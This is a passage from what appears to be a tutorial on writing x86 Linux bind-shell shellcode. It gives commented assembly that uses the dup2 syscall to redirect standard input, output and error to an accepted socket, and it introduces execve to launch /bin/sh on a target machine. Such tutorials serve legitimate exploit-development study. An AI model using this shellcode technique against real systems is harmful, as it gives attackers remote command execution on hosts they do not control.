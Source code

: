 ### Dup2 Function Synopsis :

```c
#include <unistd.h> 

int dup2(int oldfd, int newfd);**
```

<p style="text-align:justify;">
After initiating the <b>accept</b> system call, there must be a redirection from standard input, output and error descriptors to the client descriptor returned from <b>accept</b> syscall. This has to be done in order to be able to initiate commands in a shell environment at the target machine. The following description has been taken from Linux manual page: The <b>dup2</b> system call performs the same task as <b>dup</b> , but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in <b>newfd</b>. If the file descriptor <b>newfd</b> was previously open, it is silently closed before being reused.
</p>

### Dup2 :&nbsp; 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#33cccc;">;;dup2(resfd, 2);</span> 
<span style="color:#33cccc;">;;dup2(resfd, 1);</span> 
<span style="color:#33cccc;">;;dup2(resfd, 0);</span>
mov ebx, eax      <span style="color:#33cccc;">; the first argument in dup2 has the returned socket </span>
                  <span style="color:#33cccc;">; descriptor from accept syscall. ebx now has the </span>
                  <span style="color:#33cccc;">; returned socket descriptor (resfd) </span>
xor ecx, ecx      <span style="color:#33cccc;">; zero out the ecx register before use it </span>
lo: 
mov al, 0x3f      <span style="color:#33cccc;">; the functional number that indicates dup2 (63 in dec) </span> 
int 0x80          <span style="color:#33cccc;">; call dup2 syscall </span>
inc ecx           <span style="color:#33cccc;">; increase the value of ecx by 1 so </span> 
                  <span style="color:#33cccc;">; it will take all values </span>
                  <span style="color:#33cccc;">; 0(stdin), 1(stdout), 2(stderr)  </span>
cmp cl, 0x2       <span style="color:#33cccc;">; compare ecx with 2 which indicates </span>
                  <span style="color:#33cccc;">; the stderr descriptor </span>
jle lo            <span style="color:#33cccc;">; loop until counter is less or equal to 2 </span>
</pre>

### Execve Function Synopsis :

<p style="text-align:justify;">
Now that the standard input, output and error are pointing to 0,1,2 file descriptors, the run the execve function will be run in order to execute the /bin/sh command to the target host.
</p>

```c
#include <unistd.h> 

int execve(const char *filename, char *const&nbsp;argv[], char *const&nbsp;envp[]);
```

